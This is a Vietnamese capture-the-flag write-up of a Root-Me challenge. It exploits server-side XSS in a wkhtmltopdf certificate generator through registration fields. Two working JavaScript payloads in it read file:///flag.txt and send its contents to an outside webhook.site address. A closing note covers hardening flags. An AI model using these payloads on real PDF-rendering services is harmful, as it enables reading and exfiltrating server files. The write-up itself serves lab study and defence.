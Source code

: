 Challenge: http://challenge01.root-me.org:59083/

![alt text](image.png)

Thử nhập 1 đoạn text hợp lệ vào, server sẽ tạo ra 1 Certi và thêm vào đoạn text mình vừa nhập: 
![alt text](image-1.png)

Tìm hiểu về XSS Server Side liên quan đến việc tạo PDF: https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf

Trang này đề cập đến việc server có thể dùng các mã nguồn mở bên ngoài để tạo các đoạn HTML, CSS, ảnh thành PDF. Với việc đầu vào là HTML thì có thể bị chèn và chạy các đoạn javascript hay HTML vào. Và nếu server trả về PDF ta có thể xem thì chỉ cần xuất ra còn nếu server không trả về PDF (Blind) thì cần trả về bên ngoài. 

Thử chèn mã JS vào đoạn nhập text: 
![alt text](image-2.png)

Nó trả về y nguyên mà không có lỗi hay chạy đoạn mã này. 

Thử với tính năng đăng nhập đăng kí. 
![alt text](image-3.png)

![alt text](image-4.png)

![alt text](image-5.png)

Server sẽ thêm cả tên vào Certi, có thể injection vào đường này. Và để chắc chắn hơn, ta sẽ injection cả đoạn JS vào các trường ko hiển thị như login và password. 

![alt text](image-6.png)

![alt text](image-7.png)

![alt text](image-8.png)

Ở kết quả trả về ta thấy không có đoạn mã, đoạn mã có thể đã chạy và vì không trả về kết quả nên không hiển thị. 

Vậy ta sẽ injection 1 đoạn JS khác để chắc chắn trả về. 
![alt text](image-9.png)

![alt text](image-10.png)

Như vậy là chắc chắn nó sẽ trả về ở 2 trường này. 

![alt text](image-11.png)

![alt text](image-12.png)

Test thêm dùng 1 đoạn JS để gửi gói tin ra bên ngoài(dùng webhook):
![alt text](image-13.png) 

![alt text](image-14.png)

Ta thấy nó có gửi gói tin ra ngoài. 

```
<script>
x=new XMLHttpRequest;x.onload=function(){y=new XMLHttpRequest;y.open("GET","https://webhook.site/0db168bc-7767-41c3-a16f-08b42ac9d23a/"+btoa(this.responseText));y.send();};x.open("GET","file:///flag.txt");x.send();
</script>
```
Dùng đoạn JS để lấy flag và gửi ra ngoài. 
![alt text](image-15.png)

Ta nhận được gói tin với nội dung đang được base64: 
![alt text](image-16.png)

Dùng btoa để đảm bảo nếu nội dung là nhiều dòng nó cũng sẽ base64 để đưa vào link hợp lệ, còn nếu đơn giản có thể dùng: 
```
<script>
x=new XMLHttpRequest;x.onload=function(){y=new XMLHttpRequest;y.open("GET","https://webhook.site/0db168bc-7767-41c3-a16f-08b42ac9d23a/"+encodeURIComponent(this.responseText));y.send();};x.open("GET","file:///flag.txt");x.send();
</script>
```

Thì gói tin gửi về sẽ là: 
![alt text](image-17.png)


Có thể thấy thêm công cụ để tạo PDF là wkhtmltopdf: 
![alt text](image-18.png)



Note: Không tin tưởng hoàn toàn vào các mã nguồn, dịch vụ sẵn bên ngoài thêm vào. Việc --disable-javascript và --disable-local-file-access thì vẫn có thể chạy với các thẻ img, object,...nhưng vẫn phần nào an toàn hơn.
